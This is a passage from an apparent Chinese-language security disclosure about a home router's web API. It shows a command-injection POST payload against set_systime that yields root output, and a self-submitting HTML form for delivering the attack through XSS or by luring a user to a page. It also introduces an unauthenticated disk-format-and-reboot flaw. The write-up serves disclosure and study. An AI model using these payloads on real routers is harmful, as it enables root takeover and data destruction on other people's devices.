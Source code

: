```
http://192.168.199.1/cgi-bin/turbo/api/system/set_systime 
```

页面 post 以下数据：

```
date=1&h=1&mi=1&s=1'%3Bid>/tmp/aa.txt%3B' 
```

就会在/tmp/目录下生成 aa.txt，其内容为 id 命令执行后的结果

```
uid=0(root) gid=0(root) 
```

远程攻击着可以构造自动 POST 的 js 代码，使用 xss 或者诱骗方式让用户访问，以达到远程攻击的效果。 攻击代码如下：

```
<form id='exp' action='http://192.168.199.1/cgi-bin/turbo/api/system/set_systime' method='post'>
    <input name='date' value='1'>

    <input name='h' value='1'>
    <input name='mi' value='1'>
    <input name='s' value="1';id>/tmp/exp.txt;'">

    <input type=submit>
</form>
<script>exp.submit();</script> 
```

### 0x07 远程重启路由，清空闪存数据漏洞

* * *

该路由产品本身自带 8G 的存储空间，该存储空间可以为将来一些离线下载的 APP 提供存储。但是，在 system.lua 当中，存在 format_disk()函数，该函数的功能是格式化存储空间并且重启路由器。最重要的是，该函数无需用户认证即可访问，可被远程攻击者和局域网攻击者所利用。其具体代码如图： ￼ ![enter image description here](img/img9_u67_png.jpg)
